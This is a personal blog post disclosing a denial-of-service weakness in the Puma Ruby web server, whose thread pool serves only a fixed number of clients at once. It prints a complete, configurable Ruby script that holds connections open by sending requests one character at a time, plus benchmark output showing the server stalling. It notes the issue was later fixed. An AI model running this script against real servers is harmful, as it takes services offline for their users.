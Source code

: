 ```yaml
---
title: Puma and the light
categories: [programming, ruby, lol]
layout: post
---
```


Today after I finished wrapping up [barlume](https://github.com/meh/barlume) I started
thinking about the next steps.

At first I thought about writing a reactor with it and adding a compatibility layer to
make it work like [EventMachine](https://github.com/eventmachine/eventmachine) (and it
will be done), but then I thought about Puma.

[Puma](http://puma.io/) is a very awesome Ruby web server, I really like what it tries to
achieve and by reading the homepage it seems really performant.

So I started digging around the source to see where I could improve its performances and
after seeing the orror of `IO.select` usage (which isn't that bad for how they use it) I
noticed how it handled connections and requests.

```ruby
@thread_pool = ThreadPool.new(@min_threads, @max_threads) do |client, env|
  process_client(client, env)
end
```

When it starts it creates a `ThreadPool`, the default minimum is **0** the default maximum is **16**,
after reading more of it, specifically that `process_client` function I realized something else:
it can only handle *maximum threads* clients at a time.

What are the consequences of this sad realization? The consequences are that this simple script
makes *puma* completely unresponsive:

```ruby
#! /usr/bin/env ruby
# encoding: utf-8
require 'socket'
require 'barlume'
require 'optparse'

options = {}

OptionParser.new do |o|
  options[:host]    = 'localhost'
  options[:port]    = 9292
  options[:threads] = 16
  options[:content] = "GET / HTTP/1.1\r\nHost: localhost\r\n\r\n"
  options[:sleep]    = 1

  o.on '-h', '--host host', 'the host of the server' do |value|
    options[:host] = value
  end

  o.on '-p', '--port port', Integer, 'the port of the server' do |value|
    options[:port] = value
  end

  o.on '-t', '--threads [MAX_THREADS]', Integer,
       'the max amount of threads on the server' do |value|
    options[:threads] = value
  end

  o.on '-c', '--content CONTENT', 'the string to send' do |value|
    options[:content] = value
  end

  o.on '-s', '--sleep SECONDS', Float,
       'the time to sleep before sending every character' do |value|
    options[:sleep] = value
  end
end.parse!

class Slowpoke < Barlume::Lucciola
  def initialize (socket, message)
    super(socket)

    @message = message
    @offset  = 0
  end

  def send_next
    return if done?

    write_nonblock @message[@offset]

    @offset += 1
  rescue Errno::EAGAIN, Errno::EWOULDBLOCK
  end

  def done?
    @offset >= @message.length
  end
end

lantern = Barlume::Lanterna.best

options[:threads].times {
  lantern << Slowpoke.new(TCPSocket.new(
    options[:host], options[:port]), options[:content])
}

puts "oh noes, a wall on my path D:"

until lantern.all?(&:done?)
  lantern.writable.each {|s|
    s.send_next
  }

  sleep options[:sleep]
end

puts "oh, there's a door ( ･ ◡◡･)"
```

I ran that script on a simple *sinatra* application and prepared to run `ab` to see
how it handled everything, this was the result:

```
Benchmarking 127.0.0.1 (be patient)...apr_poll: The timeout specified has expired (70007)
```

It **dies**.

When the slowpokes are done everything restarts working properly.

So, what's next about all of this? I'll try to write a patch to make it use barlume
and keep it as concurrent as before.

In the meantime I'd suggest to not use it in production or at least with other external
measures to avoid that kind of attack.

EDIT: it has been fixed with [6777c77](https://github.com/puma/puma/commit/6777c771d829a31634b968c74a829cc53b80a144).
